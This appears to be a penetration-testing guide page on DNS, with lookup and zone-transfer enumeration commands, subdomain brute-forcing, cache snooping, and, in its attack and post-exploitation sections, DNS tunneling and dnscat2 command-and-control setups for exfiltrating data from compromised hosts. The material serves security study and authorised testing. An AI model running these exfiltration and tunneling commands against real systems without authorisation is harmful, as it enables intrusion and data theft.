 ```yaml
---
authors: ShutdownRepo, Tednoob17
category: infra
---
```


# 🛠️ DNS

## Theory

The Domain Name System (DNS) is a fundamental protocol of the Internet that translates human-readable domain names into IP addresses. It functions as a distributed database system that enables computers to resolve domain names to the corresponding network addresses required for network communication.

DNS operates on port 53 by default and uses both TCP and UDP protocols. The system is hierarchical, with root servers at the top, followed by Top-Level Domain (TLD) servers, and authoritative name servers for specific domains.

## Practice

### Enumeration

DNS enumeration involves gathering information about a domain's DNS infrastructure. This can be accomplished through various methods and tools.

#### DNS Queries

:::tabs

=== dig
The dig utility performs DNS lookups and displays responses from name servers.

```bash
# Query A records (IP addresses)
dig thehacker.recipes A

# Query name server records
dig thehacker.recipes NS

# Trace DNS resolution path
dig thehacker.recipes +trace
```

=== nslookup
nslookup provides DNS query functionality and debugging capabilities.

```bash
# Standard DNS query
nslookup thehacker.recipes

# Query mail exchange records
nslookup -type=MX thehacker.recipes

# Query specific DNS server
nslookup thehacker.recipes $DNS_IP
```

=== host
host performs DNS lookups with a simplified interface.

```bash
# Basic DNS query
host thehacker.recipes

# Query mail exchange records
host -t MX thehacker.recipes

# Reverse DNS lookup
host $IP_ADDRESS
```

=== whois
whois retrieves registration information for domains.

```bash
# Domain registration lookup
whois thehacker.recipes
```
:::

#### Zone Transfers
Zone transfers (AXFR requests) are a DNS protocol feature that allows a secondary DNS server to receive all DNS records from a primary DNS server. While legitimate for DNS replication, misconfigured servers allowing unauthorized zone transfers can expose complete domain information to potential attackers.

Common signs of misconfiguration include:
- Allowing zone transfers from any source IP
- Missing ACLs for AXFR requests
- Exposed internal DNS records

```bash
# Basic zone transfer attempt
dig axfr @$DNS_IP $DOMAIN

# Zone transfer specifying name server
dig axfr $DOMAIN @ns1.$DOMAIN

# Using host command for zone transfer
host -t axfr $DOMAIN $DNS_IP

# Alternative using fierce for zone transfers
fierce --domain $DOMAIN --dns-servers $DNS_IP
```

> [!NOTE]
> Modern DNS servers typically restrict zone transfers by default. Success usually indicates a misconfiguration.

#### Subdomain Enumeration
DNSRecon enables comprehensive DNS reconnaissance, including subdomain discovery and record analysis.

```bash
# Basic domain enumeration
dnsrecon -d example.com

# Brute force with wordlist
dnsrecon -d example.com -D $WORDLIST -t std --xml $OUTPUT.xml
```

### Attacks

#### DNS Tunneling
DNS tunneling exploits DNS protocol for data exfiltration or command and control communication. While legitimate uses exist (e.g., software updates), the technique is often employed maliciously.

```bash
# Server configuration
sudo python dnscapy_server.py $DELEGATED_ZONE_NAME $EXTERNAL_IP_ADDR

# Client configuration
ssh -o ProxyCommand="sudo python dnscapy_client.py $DELEGATED_ZONE_NAME $IP_ADDR_OF_CLIENT_DNS" yourlogin@localhost
```

#### DNS Cache Snooping
Cache snooping enables examination of a DNS server's cache to determine recently queried domains.

```bash
# Perform cache snooping
dig @$DNS-SERVER $DOMAIN +norecurse
```

### Post-Exploitation

#### DNS Exfiltration
DNS exfiltration leverages DNS queries to extract data from compromised systems. dnscat2 provides encrypted command-and-control capabilities over DNS.

```bash
# Server setup
dnscat2 --dns server=$DNS_SERVER_IP:53

# Client connection
dnscat2 $DOMAIN
```

## Resources

* [HTB Academy - Information Gathering-Web Edition](https://academy.hackthebox.com/module/144/section/1251)
* [Kali Tools - DNSRecon Documentation](https://www.kali.org/tools/dnsrecon)
* [Common DNS Attack Types](https://bluecatnetworks.com/blog/four-major-dns-attack-types-and-how-to-mitigate-them)
* [DNS Tunneling Techniques](https://www.blackhat.com/presentations/bh-usa-08/Miller/BH_US_08_Ty_Miller_Reverse_DNS_Tunneling_Shellcode.pdf)
